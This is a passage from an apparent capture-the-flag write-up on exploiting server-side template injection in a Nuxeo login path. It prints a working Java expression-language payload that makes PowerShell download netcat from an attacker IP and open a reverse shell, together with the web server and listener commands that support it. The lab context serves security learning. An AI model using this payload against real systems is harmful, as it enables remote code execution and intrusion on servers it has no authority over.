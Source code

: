Testing for the SSTI with a simple payload we can see that our code gets evaluated, confirming our suspicion.

[![06_nuxeo_ssti_poc](/img/hancliff/06_nuxeo_ssti_poc.png)](/img/hancliff/06_nuxeo_ssti_poc.png)

Following the PoC of the exploit we can build a payload adding an additional parameter in the `exec` part. This let's us move our complete payload to the end of the request.

```
/maintenance/..;/login.jsp/pw${''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(param.x)}.xhtml?x=powershell.exe+iwr+http://10.10.14.74/nc64.exe+-o+C:/windows/temp/c.exe;C:/windows/temp/c.exe+-e+powershell+10.10.14.74+7575
```

We start a python webserver to host our netcat binary and listen on the port we want to recieve the reverse shell.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Now we can send the request in burp, url encoding the whole SSTI part of the payload to safely send bad characters.
